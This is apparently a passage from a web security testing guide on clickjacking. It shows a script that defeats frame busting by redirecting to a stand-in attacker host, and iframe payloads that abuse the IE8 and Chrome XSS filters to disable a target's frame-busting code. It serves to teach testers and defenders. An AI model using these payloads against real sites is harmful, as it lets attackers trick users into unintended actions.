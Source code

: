_Attacker's Page_

```js
<script>
    var prevent_bust = 0;
    window.onbeforeunload = function() {
        prevent_bust++;
    };
    setInterval(
        function() {
            if (prevent_bust > 0) {
                prevent_bust -= 2;
                window.top.location = "http://attacker.site/204.php";
            }
        }, 1);
</script>
<iframe src="http://target site">
```

## XSS Filter

### IE8 XSS filter

This filter has visibility into all parameters of each request and response flowing through the web browser and it compares them to a set of regular expressions in order to look for reflected XSS attempts. When the filter identifies a possible XSS attacks; it disables all inline scripts within the page, including frame busting scripts (the same thing could be done with external scripts). For this reason an attacker could induce a false positive by inserting the beginning of the frame busting script into a request’s parameters.

```html
<script>
  if (top != self) {
    top.location = self.location;
  }
</script>
```

Attacker View:

```html
<iframe src=”http://target site/?param=<script>if”>
```

### Chrome 4.0 XSSAuditor filter

It has a little different behaviour compared to IE8 XSS filter, in fact with this filter an attacker could deactivate a “script” by passing its code in a request parameter. This enables the framing page to specifically target a single snippet containing the frame busting code, leaving all the other codes intact.
Attacker View:

```html
<iframe src=”http://target
site/?param=if(top+!%3D+self)+%7B+top.location%3Dself.location%3B+%7D”>
```
